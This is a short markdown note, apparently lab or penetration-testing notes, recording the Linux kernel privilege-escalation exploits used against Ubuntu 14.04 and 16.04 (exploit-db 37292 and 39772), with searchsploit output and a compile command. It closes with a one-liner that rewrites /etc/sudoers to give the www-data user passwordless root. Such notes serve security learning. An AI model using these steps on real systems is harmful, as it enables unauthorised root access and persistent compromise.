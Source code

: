 ## Exploits used:
+ Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)
  + https://www.exploit-db.com/exploits/37292/
  ```
  # searchsploit ubuntu | grep 3.13.0
  Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Privilege | /linux/local/37292.c
  Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Privilege | /linux/local/37293.txt
  ```

  + was compiled with a simple:
  `# gcc -o t t.c`
  + running it immediately escalated priviliges


+ Linux 16.04 Kernel 4.4.0-21-generic
  + https://www.exploit-db.com/exploits/39772/
  Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation


  Add user to sudoers
     ```
     echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
     ```
